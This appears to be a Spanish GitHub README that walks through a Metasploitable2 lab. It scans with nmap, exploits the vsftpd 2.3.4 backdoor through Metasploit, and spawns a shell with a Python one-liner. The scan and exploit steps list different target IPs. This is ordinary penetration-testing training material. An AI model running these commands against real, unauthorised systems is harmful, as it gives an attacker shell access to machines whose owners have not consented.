



<p align="center">
<a href="https://github.com/DenverCoder1/readme-typing-svg"></a>
</p>

**sourceforge:** https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**Paso 1:**

Escaneo de puertos y vulnerabilidades con nmap.

```
sudo nmap -sS -sV --script vuln 10.10.11.6
```

<p align="center">

</p>

**Paso 2**

Como podemos observar tiene vulnerabilidad en el puerto 21 y tiene como servicio vsftpd versión 2.3.4.

Para explotar esta vulnerabilidad vamos usar metasploit:

```
msfconsole

search vsftpd

use exploit/unix/ftp/vsftpd_234_backdoor

options
```

<p align="center">

</p>

cómo podemos ver tenemos que configurar la IP de la maquina vulnerable en
RHOSTS para poder acceder.


```
set RHOSTS 10.10.10.6

exploit
```

Ahora para poder generar un línea de comandor deberemos usar el sigueinte comando:

```python
python -c 'import os; os.system("/bin/sh")'

shell
```

<p align="center">

</p>